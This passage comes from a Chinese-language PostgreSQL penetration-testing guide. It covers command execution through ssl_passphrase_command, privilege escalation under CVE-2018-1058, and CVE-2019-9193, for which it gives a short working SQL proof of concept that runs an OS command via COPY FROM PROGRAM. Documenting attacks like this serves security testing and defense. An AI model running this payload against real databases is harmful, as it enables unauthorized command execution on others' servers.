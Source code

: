 可以看到，重新加载配置文件后，ssl\_passphrase\_command 中的命令已经执行

[![](assets/1710209150-80d02dc62e60ecdde997fadff7096594.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/48.png)

## [](#cve-2018-1058-postgresql-%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E)CVE-2018-1058 PostgreSQL 提权漏洞

PostgreSQL 其 9.3 到 10 版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

详细复现可以参考 vulhub 靶场中的 writeup

-   [https://vulhub.org/#/environments/postgres/CVE-2018-1058/](https://vulhub.org/#/environments/postgres/CVE-2018-1058/)

## [](#cve-2019-9193-postgresql-%E9%AB%98%E6%9D%83%E9%99%90%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E)CVE-2019-9193 PostgreSQL 高权限命令执行漏洞

**描述**

PostgreSQL 其 9.3 到 11 版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

**利用条件**

-   版本 9.3-11.2
-   超级用户或者 pg\_read\_server\_files 组中的任何用户

**相关文章**

-   [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

**POC | Payload | exp**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```sql<br>DROP TABLE IF EXISTS cmd_exec;<br>CREATE TABLE cmd_exec(cmd_output text);<br>COPY cmd_exec FROM PROGRAM 'id';<br>SELECT * FROM cmd_exec;<br>``` |

[![](assets/1710209150-980918ffc68979aaacb534c1f5bba91b.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/3.png)
